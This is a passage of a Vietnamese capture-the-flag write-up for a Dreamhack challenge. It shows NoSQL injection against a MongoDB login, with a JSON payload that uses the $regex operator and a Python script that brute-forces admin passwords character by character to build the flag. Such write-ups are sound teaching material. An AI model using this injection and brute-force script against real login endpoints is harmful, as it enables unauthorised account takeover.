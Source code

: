=> Cuối cùng, ta thu được `testuser` và `cream` là 2 `user` có vai trò là `admin`.

**B5:** Ta tiến hành khai thác ngược lại `password` thông qua toán tử `$regex` trong MongoDB:
```
{
  "uid": "testuser",
  "upw": { "$regex": '^a' }
}
```
Nghĩa là ta sẽ tìm `uid` là `testuser` với `password` bắt đầu bằng chữ `a` và ta thay chữ `a` thành các chữ ký tự khác, nếu như chữ ký tự nào có thể redirect ta vào trang `/user` thì chữ ký tự đó thuộc `password`.

Dưới đây là `Script Python` sẽ giúp ta làm điều này:
```python
import requests
import json

CHARSET = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ012345}6{789'
password=''
for index in range (50):
    print("[DEBUG] Đang bruteforce kí tự thứ ", index)
    for i in CHARSET:
        # URL của endpoint cần gửi POST request
        url = "http://host3.dreamhack.games:8927/login" # Change this

        # Dữ liệu cần gửi đi trong body của POST request
        data = {
            "uid": "testuser", # Change this to the second admin when you done with the first admin
            "upw": { "$regex": f"^{password}{i}" }
        }

        # Định nghĩa header cho POST request
        headers = {
            "Content-Type": "application/json",
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36",
            "Accept-Encoding": "gzip, deflate, br",
            "Connection": "keep-alive"
        }

        # Gửi POST request
        response = requests.post(url, headers=headers, data=json.dumps(data))
        print("Tui đang thử kí tự thứ ",index," nè: ", i, end="\r")
        if "<h1>Welcome, testuser</h1>" in response.text: # Change testuser to the second admin
            password+=i
            print("Tìm ra kí tự thứ ", index, "là ", i, "(FLAG:",password,")")
            break
```

=> Sau khi ta chạy xong cả 2 `user` là `cream` và `testuser`, ta sẽ ghép 2 `password` vừa tìm được lại với nhau là sẽ được `Flag`.

<u>**Thông tin thêm:**</u> Flag có dạng `DH{}`
